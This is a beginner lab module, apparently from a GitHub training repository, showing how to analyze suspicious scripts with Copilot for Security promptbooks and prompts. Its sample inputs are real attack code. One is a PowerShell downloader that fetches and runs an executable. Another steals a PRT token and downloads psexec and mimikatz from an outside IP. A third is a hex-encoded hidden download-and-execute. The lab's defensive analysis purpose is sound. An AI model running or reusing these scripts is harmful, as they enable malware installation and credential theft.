# Module 2 - How to analyze a script using Copilot for Security

🎓 **Level**: 100 (Beginner)

⌛ **Estimated time to complete this lab**: 15 minutes

## Objectives

This module guides you through how to use promptbooks and how to analyze the some sample code.

### Prerequisites

You must have completed Module 1 or have an exisiting instance of Copilot For Security installed. If you do not have a working instance of Copilot for Security please click [click here to complete Module 1](..Modules/Module-1-Setting-up-the-the-environment.md#module-1---setting-up-the-environment).

### Items to note

Throughout the exercises during this hands on lab you will notice some prompts will start with **"/AskGPT"**. This is an important skill which instructs the Copilot for Security to bypass any plugins and to use the underlying GPT engine to respond with an answer. This skill can be used when trying to ask generic questions which do not require a specific plugin. For example, **"/AskGPT"** based on the previous response please could you extract all the IP addresses from the summary".

<h3><u>Exercise 1 : Using the Script Analysis promptbook</u></h3>

1. **Navigate to the Login Page:**
   - Open your web browser and go to the [Copilot for Security login page](https://securitycopilot.microsoft.com)
2. **Sign In:**
   - Enter your login credentials (username and password).
   - Click on the "Sign In" button.

3. **Navigate to the Standalone Portal:**
   - Once logged in, you will be directed to the standalone portal.
4. **Scroll to the Prompt Bar:**
   - Scroll down to the bottom of the portal.
   - Click on the "Prompts" icon located in the prompt bar.
   [](../Images/Suspicious%20promptbook%201.png)

5. **Select the Promptbook:**
   - Click on the "Promptbooks" section.
   - Select "Suspicious Script Analysis" from the list of available promptbooks.
     [](https://github.com/jmf321/CfS-Hands-On-Training/blob/main/Images/Suspicious%20promptbook%202.png)

6. **Enter the Script:**
   - In the "Script to Analyze" input area, paste the script you want to analyze.
#### Example of a suspicious PowerShell script
   ```powershell
   $client = New-Object System.Net.WebClient
   $url = "deceptive100.secretah.ru"
   $file = "$env:temp\malware.exe"
   $client.DownloadFile($url, $file)
   Start-Process $file
   ```
7. **Submit the Script:**
   - Click on the "Submit" button to start the analysis.
   
[](../Images/submitscriptpromptbook.png)


8. **Analyze the Breakdown of the script:**
   - After submission, review the generated outcome breaking down the script, line by line and indicating what each line is achieving.
  
[](../Images/analyzereport.png)

- The outcome  will indicate whether the script is malicious or not.
9. **Continue to assess the additional prompts within the promptbook**, with a focus on capturing threat intelligence pertaining to associated domains and the corresponding remediation strategies, leading to the formulation of a finalized summary report.
  


[](../Images/scriptreputation.png) 
[](../Images/scriptrecommendation.png)


### Result of the Promptbook:
- Once the promptbook has run , it will produce a detailed report, capturing the investigation steps taken that would be suitable for both technical audiences and those less familiar with technical details. see below .

[](../Images/finalizedreport.png)


By following these steps and utilizing the images for visual aid, the trainees will have a comprehensive understanding of how to log in, navigate the portal, submit scripts for analysis, and review the final outcomes in Microsoft Copilot for Security.

### Exercise 2: Custom Prompts to Investigate Script Analysis

1. **Navigate to the Standalone Portal:**
   - Once logged in, you will be directed to the standalone portal.
2. Access the Prompt Bar
   
   [](../Images/promptbar1.png)

3. Add the Following Prompt
   ``` 
   /AskGpt Analyze this script Get-UserPRTToken { [cmdletbinding()] Param() Process { # There are two possible locations $locations = @( "$($env)\Windows Security\BrowserCore\browsercore.exe" "$($env)\BrowserCore\browsercore.exe" ) # Check the locations foreach($file in $locations) { if(Test-Path $file) { $browserCore = $file } } if(!$browserCore) { throw "Browsercore not found!" } # Create the process $p = New-Object System.Diagnostics.Process $p.StartInfo.FileName = $browserCore $p.StartInfo.UseShellExecute = $false $p.StartInfo.RedirectStandardInput = $true $p.StartInfo.RedirectStandardOutput = $true $p.StartInfo.CreateNoWindow = $true # Create the message body $body = @" { "method":"GetCookies", "uri":"https://login.microsoftonline.com/common/oauth2/authorize", "sender":"https://login.microsoftonline.com" } "@ # Start the process $p.Start() | Out-Null $stdin = $p.StandardInput $stdout = $p.StandardOutput # Write the input $stdin.BaseStream.Write([bitconverter]::GetBytes($body.Length),0,4) $stdin.Write($body) $stdin.Close() # Read the output $response = "" while(!$stdout.EndOfStream) { $response += $stdout.ReadLine() } Write-Debug "RESPONSE: $response" $p.WaitForExit() # Strip the stuff from the beginning of the line $response = $response.Substring($response.IndexOf("{")) | ConvertFrom-Json # Check for error if($response.status -eq "Fail") { Throw "Error getting PRT: $($response.code). $($response.description)" } # Return return $response.response.data } } Get-UserPRTToken > $Env\prtt.bin wget http://185.247.184.189:80/psexec.exe -outfile $Env\notepad.exe wget http://185.247.184.189:80/mimikatz_trunk.zip -outfile $Env\mechanteprune.zip
   ```
[](../Images/analyzescript1.png)

3. Add the Following Prompt
   ```
   /AskGpt Surface from the script the relevant pieces of information to investigate, as well as all the technical indicators
   ```
[](../Images/analyzescript2.png)

4. Add the Following Prompt
   ```
   /AskGpt Extract all external URLs and their associated domains from the script
   ```
[](../Images/analyzescript3.png)

5. Add the Following Prompt
   ```
   Give me the reputation scores for the Urls and Domains identified above from Microsoft Defender Threat intelligence
   ```
[](../Images/analyzescript4.png)

6. Add the Following Prompt
   ```
   /summarizedata Prepare a report summarizing the investigation for a technical audience. Ensure the report includes a main heading titled "Investigation Script Analysis" and features subheadings for each investigation task, detailing the steps undertaken. Present your findings in bullet points and include sections on recommendations and conclusions.
   ```
[](../Images/analyzescript5.png)

### Exercise 3 : Using Copilot for Security to Decode a Script

1. **Navigate to the Standalone Portal:**
   - Once logged in, you will be directed to the standalone portal.
2. **Scroll to the Prompt Bar:**
   - Scroll down to the bottom of the portal.
   - Click on the "Prompts" icon located in the prompt bar.
     
   

3. **On the search tab type Analyze a Script, and select Analyze a script or command in the system capabilities**

   [](../Images/cfsSCRIPTDECODE2.png)
   
4. **Add the following Hexadecimal Script on the input box stating " The full command or script to be analyzed or interpreted"**
```
20706f7765727368656c6c2e657865202d4e6f45786974202d457865637574696f6e506f6c69637920427970617373202d57696e646f775374796c652048696464656e20244572726f72416374696f6e507265666572656e63653d202773696c656e746c79636f6e74696e7565273b284e65772d4f626a6563742053797374656d2e4e65742e576562436c69656e74292e446f776e6c6f616446696c652827687474703a2f2f35342e3136312e3234312e34362f312e657865272c2027433a5c5c746573742d57444154502d746573745c5c696e766f6963652e65786527293b53746172742d50726f636573732027433a5c5c746573742d57444154502d746573745c5c696e766f6963652e65786527
```
[](../Images/cfsSCRIPTDECODE3.png)

5. After submission, review the generated report explaining the script.

[](../Images/cfsSCRIPTDECODE4.png)

Click [here](Module-3-Threat-intelligence-scenarios.md) to complete the next Module.

